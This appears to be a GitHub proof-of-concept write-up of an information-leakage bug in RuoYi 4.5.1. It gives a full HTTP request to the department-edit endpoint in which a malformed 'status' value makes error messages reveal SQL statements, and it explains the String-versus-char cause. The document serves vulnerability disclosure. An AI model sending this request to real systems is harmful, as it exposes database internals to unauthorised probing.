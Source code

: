 RuoYi 4.5.1 has an information leakage vulnerability
# POC
```
POST /system/dept/edit HTTP/1.1
Host: 127.0.0.1
Content-Length: 209
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
sec-ch-ua-platform: "macOS"
Origin: http://127.0.0.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/system/dept/edit/103
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=a484ff97-3a44-4dc2-bc54-e0332d37da5b
Connection: close

deptId=103&parentId=101&parentName=%E6%B7%B1%E5%9C%B3%E6%80%BB%E5%85%AC%E5%8F%B8&deptName=%E7%A0%94%E5%8F%91%E9%83%A8%E9%97%A8&orderNum=1&leader=%E8%8B%A5%E4%BE%9D&phone=15888888888&email=ry%40qq.com&status=1&
```

Splicing any character after the `status` parameter will result in an error message containing a vulnerability SQL statement
![image](https://github.com/Fr1ezy/POC/assets/54392222/0595d7dd-a2a0-4382-a7d7-5527abac72d1)

# Code
- The status parameter is defined as a `String` type on the backend, but the database is defined as a `char` type
- The char type is used to store fixed length strings, and when the length of the stored string is less than the defined length, spaces will be filled at the end of the string. Therefore, if the status parameter is modified beyond the default length of char, it will cause an error and leak the SQL statements used for database queries
![image](https://github.com/Fr1ezy/POC/assets/54392222/9a4d9797-817d-4d43-8e53-9d21759a9e0a)
![image](https://github.com/Fr1ezy/POC/assets/54392222/195c9717-b746-4b26-adab-94d8981d4a3d)

